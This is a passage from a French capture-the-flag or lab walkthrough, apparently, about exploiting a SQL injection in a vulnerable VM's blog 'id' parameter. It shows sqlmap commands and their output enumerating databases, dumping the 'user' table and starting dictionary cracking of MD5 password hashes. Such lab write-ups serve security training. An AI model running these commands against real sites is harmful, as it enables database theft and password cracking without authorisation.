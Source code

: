 ```console
back-end DBMS: MySQL >= 5.0.12
[12:35:46] [ERROR] user quit
```

En quelques secondes à peine, SQLMap a détecté qu'il s'agit d'une base de données MySQL et que le troisième paramètre testé _id_ est vulnérable aux injections SQL. Après plusieurs tentatives, SQLMap récupère les tables (--tables) ainsi que les colonnes (--columns) présentes dans chaque base de données trouvée (--dbs), et tant qu'à faire, autant récupérer tout le contenu de la base de données (--dump-all).

```console
root@blinils:~# sqlmap -u "http://192.168.56.104/index.html?page=blog&title=Blog&id=2" --dbms=MySQL --dbs -v0

--snip--

---
web server operating system: Linux Fedora 5 (Bordeaux)
web application technology: Apache 2.2.0, PHP 5.1.2
back-end DBMS: MySQL >= 5.0.0
available databases [5]:
[*] ehks
[*] information_schema
[*] mysql
[*] roundcubemail
[*] test
---
```

La table ehks était déjà connue grâce au fichier db.sql trouvé auparavant. C'est parti pour le dump des données !

```console
root@blinils:~# sqlmap -u "http://192.168.56.104/index.html?page=blog&title=Blog&id=2" --dbms=MySQL -D ehks --tables

--snip--

[22:34:56] [INFO] fetching tables for database: 'ehks'
Database: ehks
[3 tables]
+---------+
| user    |
| blog    |
| comment |
+---------+

--snip--

root@blinils:~# sqlmap -u "http://192.168.56.104/index.html?page=blog&title=Blog&id=2" --dbms=MySQL --dump -D ehks -T user

--snip--

[12:13:14] [INFO] fetching columns for table 'user' in database 'ehks'
[12:13:14] [INFO] fetching entries for table 'user' in database 'ehks'
[12:13:14] [INFO] recognized possible password hashes in column 'user_pass'
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] y
[12:13:14] [INFO] writing hashes to a temporary file '/tmp/sqlmapCZXRQu2095/sqlmaphashes-UM_AsC.txt' 
do you want to crack them via a dictionary-based attack? [Y/n/q] Y
[12:13:14] [INFO] using hash method 'md5_generic_passwd'
what dictionary do you want to use?
[1] default dictionary file '/usr/share/sqlmap/txt/wordlist.zip' (press Enter)
```